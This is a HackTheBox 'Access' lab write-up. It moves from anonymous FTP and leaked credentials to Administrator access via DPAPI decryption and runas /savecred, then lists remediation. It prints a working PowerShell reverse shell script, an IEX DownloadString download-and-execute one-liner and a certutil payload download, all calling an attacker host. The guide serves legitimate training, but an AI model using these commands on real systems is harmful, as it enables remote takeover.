# Access (HackTheBox) Writeup

## Enumeration
#### Nmap Scan Results
Nmap shows only 3 open TCP ports, with FTP running on port 21, telnet on port 23 and Microsoft IIS on port 80.


While the Nmap scan shows that it was not able to list files, it is possible when turning passive mode off, revealing two directories.


The Backups directory contains a `backup.mdb` (Microsoft Access Database) file


The Engineer directory contains an *Access Control.zip* archive


To ensure that the files are transferred to the attacking machine without modification or corruption, FTP binary mode should be enabled using the binary command. Both files are then downloaded to the attacking machine.


The `backup.mdb` file can then be opened directly in Microsoft Access, revealing three sets of credentials in the `auth_user` table


Extracting the ZIP archive using 7z requires a password. The second password found in the .mdb file is successfully used to extract its contents. The file name was changed from `Access Control.zip` to `Access.zip` for easier use.


The `readpst` is used to extract the content of `Access.pst`, revealing a folder named `Access Control` containing two items.


One of the extracted items, `2.eml` contains an email sent by an employee revealing credentials for the `security` account.

## Initial Access

Using the obtained credentials for the `security` account, a remote shell is established using telnet


The user flag is then found on the compromised user's home directory


## Privilege Escalation
Due to the limited functionality and significant latency of the obtained Telnet shell, the following PowerShell reverse shell script is prepared to establish a faster and more interactive shell.
```
$ cat powershell.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.15.99',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
A netcat listener is then prepare on port 443 to receive the connection


To deliver the payload, a simple python web server is prepared using the http.server module
```
python -m http.server 80
```

Once everything is prepared, powershell is executed through the telnet shell, with the following payload executed to download the script and execute it in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.99/powershell.ps1')
```

A reverse shell is then established, resulting in a more interactive shell.

#### First Method - DPAPI-Protected Credentials

A Credentials directory is found in `AppData`, suggesting the presence of DPAPI-protected credentials.


The master key is found in the `Protect` Directory, also located in `AppData`


The saved credentials can be decrypted using Impacket's `dpapi` tool. First, both the credential field and the master key need to be transferred to the attacking machine. This can be done by creating an SMB share using Impacket's `smbserver` tool and specifying a directory with write permissionsfor all users.


The files are then copied to the smb share


The master key is first decrypted using the `security` user's password


The decrypted master key is the used to recover the plaintext credentials


The decrypted credentials are for the Administrator account, with the password being `55Acc3ssS3cur1ty@megacorp`.
These credentials are then used to access the system as Administrator through Telnet.


The root flag is found on the Administrator's Desktop



#### Second Method - Stored Credentials (cmdkey)
A shortcut file named `ZKAccess3.5 Security System.lnk` is found on the target system's Public Desktop.


While not the optimal way to inspect shortcut files, using type reveals that the shortcut executes the ZKAccess program as Administrator through runas, with the /savecred parameter suggesting that the Administrator credentials are stored in Windows Credential Manager.


This can be verified using the `cmdkey /list` command.


The same `runas` command can be used with the saved credentials to execute a reverse shell executable as Administrator, resulting in privilege escalation.

First, msfvenom is used to generate the reverse shell executable, named writeup.exe.


`CertUtil` is then used to transfer the executable to the current working directory with the following command:
```
certutil -f -urlcache http://10.10.15.99/writeup.exe writeup.exe
```
The `runas` utility is then used to execute `writeup.exe` as Administrator using the saved credentials.


An elevated reverse shell is immediately established upon execution

## Findings & Remediation

### Anonymous FTP Access
#### Explanation
The FTP server allows anonymous access, exposing sensitive files without requiring authentication.
#### Impact
An unauthenticated attacker can download sensitive files from the FTP server. In this case, the exposed files contained information that ultimately allowed access to the target system.
#### Remediation
Disable anonymous FTP access unless explicitly required. Enforce authentication and restrict access to sensitive files based on user permissions.
### Insecure Credential Storage
#### Explanation
Sensitive credentials are stored insecurely in a Microsoft Access database and an Outlook email archive. The database contains a password used to protect the ZIP archive, while an email within the archive contains credentials for a system account.
#### Impact
An attacker who obtains these files can recover the ZIP archive's password, access the stored emails, and retrieve valid credentials that can be used to authenticate to the target system.
#### Remediation
Avoid storing plaintext credentials in databases, documents, or emails. Use a secure password manager or secrets management solution, and rotate any exposed credentials.
### Exposure of Privileged Credentials via DPAPI
#### Explanation
Credentials belonging to the Administrator account are stored in the security user's profile and protected using Windows DPAPI. The associated credential file and master key can be accessed and decrypted using the user's password.
#### Impact
An attacker who compromises the security account can decrypt the stored credentials and recover the Administrator password, allowing privilege escalation.
#### Remediation
Remove unnecessary privileged credentials from lower-privileged user profiles. Avoid storing Administrator credentials in accounts that do not require them, and rotate any exposed passwords.
### Stored Administrator Credentials (runas /savecred)
#### Explanation
Administrator credentials are stored in Windows Credential Manager and can be reused through the `runas` utility with the `/savecred` parameter without requiring the password to be entered again.
#### Impact
An attacker with access to the affected user account can use the stored credentials to execute arbitrary programs as Administrator, resulting in privilege escalation.
#### Remediation
Remove unnecessary stored Administrator credentials and avoid using `runas /savecred` with privileged accounts. Require explicit authentication for administrative operations and apply the principle of least privilege.
